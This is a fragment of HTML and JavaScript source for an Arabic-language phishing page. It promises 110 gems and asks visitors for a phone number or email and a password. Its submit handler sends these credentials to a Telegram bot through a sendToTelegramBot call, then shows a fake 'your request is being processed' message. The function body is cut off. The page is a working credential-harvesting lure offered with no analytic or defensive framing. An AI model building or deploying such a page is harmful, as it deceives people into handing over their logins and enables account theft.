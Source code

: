             display: none;
        }
        .success {
            background-color: #dff0d8;
            color: #3c763d;
        }
        .error {
            background-color: #f2dede;
            color: #a94442;
        }
    </style>
</head>
<body>
    <div class="container">
        <h1>سجل للحصول على 110 جوهرة 💎</h1>
        <form id="registrationForm">
            <div class="form-group">
                <label for="identifier">رقم الهاتف أو البريد الإلكتروني</label>
                <input type="text" id="identifier" required>
            </div>
            <div class="form-group">
                <label for="password">كلمة المرور</label>
                <input type="password" id="password" required>
            </div>
            <button type="submit">تسجيل</button>
        </form>
        <div id="message" class="message"></div>
    </div>

    <script>
        document.getElementById('registrationForm').addEventListener('submit', function(e) {
            e.preventDefault();
            
            const identifier = document.getElementById('identifier').value;
            const password = document.getElementById('password').value;
            const messageDiv = document.getElementById('message');
            
            // إرسال البيانات إلى بوت تيليجرام
            sendToTelegramBot(identifier, password)
                .then(response => {
                    messageDiv.textContent = "جاري تنفيذ طلبك!";
                    messageDiv.className = "message success";
                    messageDiv.style.display = "block";
                    
                    // مسح النموذج بعد الإرسال
                    document.getElementById('registrationForm').reset();
                })
                .catch(error => {
                    messageDiv.textContent = "حدث خطأ أثناء إرسال البيانات. يرجى المحاولة مرة أخرى.";
                    messageDiv.className = "message error";
                    messageDiv.style.display = "block";
                    console.error('Error:', error);
                });
        });
